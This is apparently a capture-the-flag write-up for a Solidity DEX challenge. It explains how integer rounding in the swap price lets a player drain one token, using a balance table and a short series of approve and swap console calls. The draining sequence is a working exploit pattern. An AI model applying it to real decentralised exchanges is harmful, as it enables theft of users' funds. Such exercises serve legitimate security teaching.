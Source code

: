 We must get all tokens of one of the two types token 1 or token 2. 
Also we must keep in mind that there is no fraction in solidity, you cannot get 1.222 it will round it to 1.

Here we will swap betweeen token 1 for token 2 and token 2 for token 1 and so on...

      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
  0       90    |   110     20

We will do this by calling:
await contract.approve(contract.address, 500)

t1 = await contract.token1()
t2 = await contract.token2()

await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)

Now we win :)